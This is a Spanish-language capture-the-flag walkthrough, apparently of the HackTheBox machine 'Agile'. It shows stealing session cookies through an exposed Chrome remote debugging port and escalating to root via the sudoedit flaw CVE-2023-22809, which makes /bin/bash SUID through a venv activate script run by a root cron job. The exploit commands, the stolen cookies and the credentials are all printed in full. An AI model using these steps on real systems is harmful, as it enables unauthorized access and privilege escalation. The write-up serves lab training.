

---

# Shell como edwards

## Enumeracion

> Analizando los procesos en ejecución en la máquina, detectamos una tarea recurrente:



> El proceso corresponde a la ejecución del siguiente script en Bash:

```bash
#!/bin/bash

# update prod with latest from testing constantly assuming tests are passing

echo "Starting test_and_update"
date

# if already running, exit
ps auxww | grep -v "grep" | grep -q "pytest" && exit

echo "Not already running. Starting..."

# start in dev folder
cd /app/app-testing

# system-wide source doesn't seem to happen in cron jobs
source /app/venv/bin/activate

# run tests, exit if failure
pytest -x 2>&1 >/dev/null || exit

# tests good, update prod (flask debug mode will load it instantly)
cp -r superpass /app/app/
echo "Complete!"
```

> Accedemos al directorio `/app/app-testing`:



> Se trata de un entorno de pruebas utilizado para validar nuevas versiones de la aplicación web principal. Dentro del directorio `tests`, revisamos su contenido:



> El archivo `creds.txt` no es legible debido a restricciones de permisos, pero el script de pruebas funcional en Python sí lo es:

```python
import os
import pytest
import time
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.common.by import By
from selenium.webdriver.support.ui import WebDriverWait


with open('/app/app-testing/tests/functional/creds.txt', 'r') as f:
    username, password = f.read().strip().split(':')
    
    
@pytest.fixture(scope="session")
def driver():
    options = Options()
    #options.add_argument("--no-sandbox")
    options.add_argument("--window-size=1420,1080")
    options.add_argument("--headless")
    options.add_argument("--remote-debugging-port=41829")
    options.add_argument('--disable-gpu')
    options.add_argument('--crash-dumps-dir=/tmp')
    driver = webdriver.Chrome(options=options)
    yield driver
    driver.close()


def test_login(driver):
    print("starting test_login")
    driver.get('[http://test.superpass.htb/account/login](http://test.superpass.htb/account/login)')
    time.sleep(1)
    username_input = driver.find_element(By.NAME, "username")
    username_input.send_keys(username)
    password_input = driver.find_element(By.NAME, "password")
    password_input.send_keys(password)
    driver.find_element(By.NAME, "submit").click()
    time.sleep(3)
    title = driver.find_element(By.TAG_NAME, "h1")
    assert title.text == "Welcome to your vault"


def test_add_password(driver):
    print("starting test_add_password")
    driver.find_element(By.NAME, "add_password").click()
    time.sleep(3)
    site = driver.find_element(By.NAME, "url")
    site.send_keys("test_site")
    username = driver.find_element(By.NAME, "username")
    username.send_keys("test_user")
    driver.find_element(By.CLASS_NAME, "fa-save").click()
    time.sleep(3)

    assert 'test_site' in driver.page_source
    assert 'test_user' in driver.page_source


def test_del_password(driver):
    print("starting test_del_password")
    password_rows = driver.find_elements(By.CLASS_NAME, "password-row")

    for row in password_rows:
        if "test_site" == row.find_elements(By.TAG_NAME, "td")[1].text and \
            "test_user" == row.find_elements(By.TAG_NAME, "td")[2].text:
            row.find_element(By.CLASS_NAME, "fa-trash").click()

    time.sleep(3)
    assert 'test_site' not in driver.page_source
    assert 'test_user' not in driver.page_source


def test_title(driver):
    print("starting test_title")
    driver.get('[http://test.superpass.htb](http://test.superpass.htb)')
    time.sleep(3)
    assert "SuperPassword 🦸" == driver.title


def test_long_running(driver):
    print("starting test_long_running")
    driver.get('[http://test.superpass.htb](http://test.superpass.htb)')
    time.sleep(550)
    #time.sleep(5)
    assert "SuperPasword 🦸" == driver.title
```

> El script interactúa mediante `Selenium` con el subdominio `test` y levanta una sesión headless de Chrome exponiendo un puerto para depuración remota (`--remote-debugging-port=41829`).
> Inspeccionamos la configuración de los servidores virtuales en Nginx:

```bash
$ cat /etc/nginx/sites-enabled/*

server {
    listen 80;
    server_name agile.htb;
    root /var/www/html;
    index index.html index.htm index.nginx-debian.html;

    location / {
        try_files $uri $uri/ =404;
    } 
}
server {
    listen 80 default_server;
    listen 127.0.0.1:80 default_server;
    server_name _;
    return 301 [http://superpass.htb](http://superpass.htb);
}
server {
    listen 127.0.0.1:80;
    server_name test.superpass.htb;

    location /static {
        alias /app/app-testing/superpass/static;
        expires 365d;
    }
    location / {
        include uwsgi_params;
        proxy_pass [http://127.0.0.1:5555](http://127.0.0.1:5555);
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-Protocol $scheme;
    }
}
server {
    listen 80;
    listen 127.0.0.1:80;
    server_name superpass.htb;
    proxy_read_timeout 300;
    proxy_connect_timeout 300;
    proxy_send_timeout 300;

    location /static {
        alias /app/app/superpass/static;
        expires 365d;
    }

    location /console {
	rewrite ^/console$ /console0xdf last;
    }

    location / {
        #include uwsgi_params;

        proxy_pass [http://127.0.0.1:5000](http://127.0.0.1:5000);
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-Protocol $scheme;
    }
}
```

## Subdominio test

> Comprobamos que el subdominio `test.superpass.htb` está asociado internamente al puerto `5555`:



> Dado que el host virtual solo escucha sobre `127.0.0.1`, agregarlo al `/etc/hosts` no permite acceso directo externo. Procedemos a realizar un reenvío de puertos (Port Forwarding) local vía SSH para el puerto `5555`:

```bash
$ ssh -L 5555:localhost:5555 corum@10.129.228.212
```

> Al acceder localmente, la interfaz es idéntica:


> Sin embargo, la vulnerabilidad de LFI previa se encuentra corregida en esta versión. Nos enfocamos entonces en inspeccionar el puerto de Chrome Remote Debugging (`41829`).

## Remote Debugging

> [!NOTE]
> **Remote Debugging de Chrome** permite que una instancia de Chrome exponga una interfaz de depuración para que otro ordenador/proceso pueda controlar e inspeccionar ese Chrome mediante el protocolo de Chrome DevTools (CDP).

> Reenviamos el puerto `41829` a nuestro host atacante a través de SSH:

```bash
$ ssh -L 41829:localhost:41829 corum@10.129.228.212
```

> Abrimos Chrome en nuestra máquina y navegamos a la interfaz interna de inspección: `chrome://inspect`:



> Configuramos el objetivo especificando `localhost:41829`:





> Pulsamos sobre el botón `inspect`. Se abrirá la ventana de DevTools, permitiéndonos inspeccionar las cookies de sesión del navegador en ejecución:



> Extraemos ambas cookies:

```text
remember_token = 1|900260bc298c01fdddd4378b90992fe48d6c5d727a85a59de2980698b00bd44b89f9f40476f4b30f9b961394ac020775e347a9e0f4db1cc3ebf4c472585af840

session = .eJwlzjkOwjAQAMC_uKbYy2snn0HeS9AmpEL8HSTmBfNu9zryfLT9dVx5a_dntL1x6FxEI2cX1lATrF6KSgYjJDcv24LSRQu2bqQwPXGymkPMEIMAjpDRO6DjcqqZqoOjWBxRQYEsmXHgxCUhsNzTRhh2kvaLXGce_w22zxef3y7n.aoPQzA.DsvkVQFJR-u1MLnKUvWGdVB_wYc
```

> Inyectamos la cookie de sesión en la aplicación web del puerto tunelizado `5555`:



> Accedemos a la cuenta activa en la cual encontramos credenciales de acceso para `agile` pertenecientes al usuario `edwards`. Procedemos a conectar mediante SSH:

```text
user: edwards
pass: d07867c6267dcb5df0af
```

```bash
\$ ssh edwards@10.129.228.212
```



---

# Shell como root

## Enumeracion

> Conseguimos pivotar al usuario `edwards`. Verificamos sus privilegios mediante `sudo -l`:

```bash
$ sudo -l

Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

> El usuario puede invocar `sudoedit` suplantando al usuario `dev_admin`. La versión del binario resulta vulnerable a **CVE-2023-22809**, lo cual permite eludir la lista blanca de rutas de archivo mediante la inyección del delimitador `--` en variables como `EDITOR` o `VISUAL`. Si bien no otorga acceso directo como `root`, nos permite sobrescribir cualquier archivo con permisos de escritura para `dev_admin`.



> Revisamos nuevamente el script ejecutado por la tarea periódica en `/app/test_and_update.sh`:

```bash
#!/bin/bash

# update prod with latest from testing constantly assuming tests are passing

echo "Starting test_and_update"
date

# if already running, exit
ps auxww | grep -v "grep" | grep -q "pytest" && exit

echo "Not already running. Starting..."

# start in dev folder
cd /app/app-testing

# system-wide source doesn't seem to happen in cron jobs
source /app/venv/bin/activate

# run tests, exit if failure
pytest -x 2>&1 >/dev/null || exit

# tests good, update prod (flask debug mode will load it instantly)
cp -r superpass /app/app/
echo "Complete!"
```

> Observamos que carga el entorno virtual de Python invocando `source /app/venv/bin/activate` bajo el contexto de `root`. Verificamos los permisos sobre dicho script:

```bash
$ ls -l /app/venv/bin/activate

-rw-rw-r-- 1 root dev_admin 1976 Aug 19 01:54 /app/venv/bin/activate
```

> El grupo `dev_admin` cuenta con permisos de escritura sobre el archivo. Por lo tanto, aprovechamos la vulnerabilidad `CVE-2023-22809` para modificar `/app/venv/bin/activate` e inyectar un comando que asigne privilegios SUID a `/bin/bash`.

> Ejecutamos la explotación de `CVE-2023-22809`:

## CVE-2023-22809 - Sudoedit

```bash
$ EDITOR='vim -- /app/venv/bin/activate' sudoedit -u dev_admin /app/config_test.json
```



> Integramos la orden `chmod u+s /bin/bash` al inicio del archivo, guardamos los cambios y esperamos la ejecución automática de la tarea cron.

> Verificamos si el bit SUID ha sido aplicado exitosamente:

```bash
$ ls -l /bin/bash

-rwsr-sr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```

> Iniciamos una shell con privilegios efectivos de `root`:

```bash
\$ bash -p
```

